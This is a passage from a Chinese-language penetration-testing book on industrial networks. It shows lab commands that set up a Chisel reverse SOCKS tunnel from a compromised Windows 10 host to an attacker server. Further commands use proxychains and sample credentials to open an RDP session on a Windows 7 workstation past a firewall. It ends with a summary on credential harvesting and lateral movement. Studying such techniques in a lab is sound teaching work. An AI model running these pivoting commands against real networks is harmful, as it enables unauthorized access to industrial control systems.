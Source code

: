 图 11.60 – Chisel 服务器

在我们的 Windows10 主机上，我们希望运行以下 `client` 命令来创建反向代理连接：

chisel.exe client 172.16.0.6:5555 R:socks &

再次去掉 `&` 符号来排查连接问题。你应该能看到以下输出：

![图 11.61 – 反向代理](img/B16321_11_061.jpg)

图 11.61 – 反向代理

正如你可能已经注意到的，当我们运行 `server` 命令后，最后一行输出显示反向 socks 代理正在监听 `1080` 端口，如下所示：

![图 11.62 – 反向代理监听器](img/B16321_11_062.jpg)

图 11.62 – 反向代理监听器

为了使用 `proxychains`，我们需要将配置中的端口从 `9000`（用于 SSH 隧道）更改为 `1080`，这是 Chisel 创建的端口。一旦端口创建完成，重新运行 `proxychains` 命令：

proxychains xfreerdp /u:operator1 /p:Password1 /v:172.16.0.7

如果一切正常，你应该能够进入一个经过身份验证的 Windows 7 远程桌面会话：

![图 11.63 – 使用 proxychains 的 Chisel 反向 shell](img/B16321_11_063.jpg)

图 11.63 – 使用 proxychains 的 Chisel 反向 shell

如你所见，通过受信任的工作站、绕过防火墙、进入操作网络，再通过几个简单的命令到达工作站是相当简单的。拥有完全认证的会话可以让我们对操作网络造成破坏，如果我们有意为之，且这符合我们的规则。为此，我们使用了`proxychains`，结合 SSH 隧道，深入网络获取立足点，但我们需要 Windows 10 主机上安装 SSH。为了绕过 SSH 安装要求，我们使用了 Chisel 来获取访问权限。

这些技术展示了单跳的可用性。希望你进入的工业网络较为平坦，这样就足够了，但我知道深度防御得到了广泛应用，这意味着我们必须提升自己的技术，进行多跳渗透。我会把如何使用我们刚刚测试过的工具进行多跳渗透的研究留给你。

# 总结

在本章中，我们探讨了收集凭证和票据的各种工具和技术。我们利用捕获到的*战利品*提升了权限，然后通过我们在本章第一节中安装并配置的防火墙进行横向渗透。我知道我之前说过，但我再重复一遍：正如我已故的朋友特雷弗所说，学习如何进行横向渗透是渗透测试员最基本的技能之一，且永远不要忘记 Smashburger。希望在阅读和完成本章的过程中，你能更好地理解为何拥有一个实验室来启动和拆除系统、在其中穿梭并复制客户的环境是如此重要。

现在我们已经深入到操作网络的一侧，下一章我们将通过使用 Ignition SCADA 的用户界面和脚本与物理过程进行交互。

